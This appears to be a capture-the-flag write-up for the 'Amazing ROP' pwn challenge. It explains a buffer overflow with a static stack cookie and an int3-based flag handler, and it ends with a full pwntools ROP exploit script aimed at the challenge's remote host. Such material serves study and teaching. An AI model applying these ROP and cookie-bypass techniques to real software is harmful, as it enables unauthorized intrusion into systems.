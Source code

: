 # Amazing ROP


**Category**: Pwn

**The task**:

![img0](./images/task.png)

# Analysis

We were given a binary and a C file with partial source code:

```c
int main(int argc, char **argv) {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}
```

The source code of ``vuln()`` was provided and has a [buffer overflow](./task_files/bof.c#L53) with a [static stack "cookie"](./task_files/bof.c#L59), but ``safeguard()``'s source was not provided.

When reversing the binary, it looks like the ``safeguard`` function is calling ``handle_cmds``. 

The ``handle_cmds`` function has a ``call system@plt`` gadget but when trying to jump there directly - we'll get a ``SIGSYS``(probably because the binary has some _ptrace_ monitoring). In the beginning I thought the task was to bypass the _ptrace_ stuff. But after the CTF ended I realized I missed a very important hint that the challenge author left in the source code.

**The correct solution**: ``handle_cmds`` is "intercepting" the ``int3`` syscall and expects special parameters. 

What we needed to do is to execute the ``int3`` instruction with ``0x1337`` and ``0x31337`` parameters, this is why the challenge author added a comment in ``bof.c``:

```c
// This is what you need to do to get the first flag
// void print_flag() {
//   asm volatile("mov $1, %%eax; mov $0x31337, %%edi; mov $0x1337, %%esi; int3" ::: "eax");
// }
```

The ``int3`` instruction triggers the ``handle_cmds`` function which checks whether the parameters are correct (``0x1337`` and ``0x31337``):

![img1](./images/safeguard.png)

If they are correct, it will execute ``/bin/cat /app/flag.txt``.

# Exploitation

To exploit this bug: shift the stack accordingly & create a ROP chain that will:
* Populate the registers (just like in the hint the challenge author left us in ``bof.c``)
* Jump to another gadget which executed ``int3``

![img2](./images/ropchain.png)

Exploit:

```py
from pwn import *

def extract_stackvars(line1):
    tmp = line1.split('|')[1][1:].split(' ')
    var1 = int('0x' + ''.join(tmp[0:4][::-1]), 16)
    var2 = int('0x' + ''.join(tmp[4:8][::-1]), 16)

    return (var1, var2)


# p = process('./bof.bin')
p = remote('maze.chal.perfect.blue', 1)

p.sendlineafter('(Y/n)', 'n')
stack_snapshot = p.recvuntil('Input some text:').decode()
stack_snapshot = stack_snapshot.split('\n')
relative = extract_stackvars(stack_snapshot[9])[0]

base        = relative - 0x1599
pop_gadget  = base + 0x1396
int3_gadget = base + 0x13ad


payload  = b'A' * 0x30
payload += p32(0x67616c66)  # stack "cookie"
payload += b'C' * 12
payload += p32(pop_gadget)  # pop esi; pop edi; pop ebp
payload += p32(0x1337)      # populating esi
payload += p32(0x31337)     # populating edi
payload += p32(0x1)
payload += p32(int3_gadget) # triggering handle_cmds w/ correct parameters
payload += p32(0x1)         # populating eax

p.sendline(payload)
p.interactive()
```

Output:

![img3](./images/flag.png)
